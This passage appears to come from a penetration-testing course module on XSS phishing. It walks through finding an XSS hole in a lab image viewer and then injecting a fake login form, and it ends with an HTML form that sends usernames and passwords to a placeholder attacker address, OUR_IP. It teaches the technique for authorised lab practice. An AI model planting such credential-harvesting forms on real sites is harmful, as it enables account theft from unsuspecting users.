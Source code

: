 # Phishing

Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

Furthermore, suppose we were to identify an XSS vulnerability in a web application for a particular organization. In that case, we can use such an attack as a phishing simulation exercise, which will also help us evaluate the security awareness of the organization's employees, especially if they trust the vulnerable web application and do not expect it to harm them.

***

### XSS Discovery

We start by attempting to find the XSS vulnerability in the web application at `/phishing` from the server at the end of this section. When we visit the website, we see that it is a simple online image viewer, where we can input a URL of an image, and it'll display it:

![](https://academy.hackthebox.com/storage/modules/103/xss\_phishing\_image\_viewer.jpg)

This form of image viewers is common in online forums and similar web applications. As we have control over the URL, we can start by using the basic XSS payload we've been using. But when we try that payload, we see that nothing gets executed, and we get the `dead image url` icon:

![](https://academy.hackthebox.com/storage/modules/103/xss\_phishing\_alert.jpg)

So, we must run the XSS Discovery process we previously learned to find a working XSS payload. `Before you continue, try to find an XSS payload that successfully executes JavaScript code on the page`.

Tip: To understand which payload should work, try to view how your input is displayed in the HTML source after you add it.

***

### Login Form Injection

Once we identify a working XSS payload, we can proceed to the phishing attack. To perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page. This form should send the login information to a server we are listening on, such that once a user attempts to log in, we'd get their credentials.

We can easily find an HTML code for a basic login form, or we can write our own login form. The following example should present a login form:

Code: html

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
